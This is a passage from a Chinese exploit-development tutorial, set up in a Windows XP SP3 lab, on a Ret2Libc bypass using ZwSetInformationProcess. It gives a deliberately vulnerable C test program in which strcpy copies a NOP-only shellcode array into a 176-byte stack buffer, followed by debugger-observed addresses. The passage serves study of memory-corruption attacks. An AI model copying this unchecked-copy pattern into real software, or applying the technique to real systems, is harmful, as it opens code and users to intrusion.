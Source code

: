 pwn~
![](/assets/img/exploit/2017-10-04-safeseh-break-byoutside/0x013-011.png)


## 0x014 Ret2Libc实战之利用ZwSetInformationProcess

>[分析环境]  
>系统: Windows XP Professional sp3  
>编译器: VC++ 6.0  
>调试器: OllyDbg 1.10  
>说明: 没有启用GS & SafeS.E.H。

新建一个工程, 帖入以下代码, 选择release版本, 禁止优化
```
#include <stdlib.h>
#include <string.h>
#include <stdio.h>
#include <windows.h>

char shellcode[]=
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90";

void test()
{
	char tt[176];
	__asm int 3
	strcpy(tt, shellcode);
}

int main()
{
	HINSTANCE hInst=LoadLibrary("shell32.dll");
	char temp[200];
	test();

	return 0;
}
```

运行*.exe, OllyDbg在int 3断点断下, shellcode起始地址0x0012fdfc, 返回地址0x0012feb0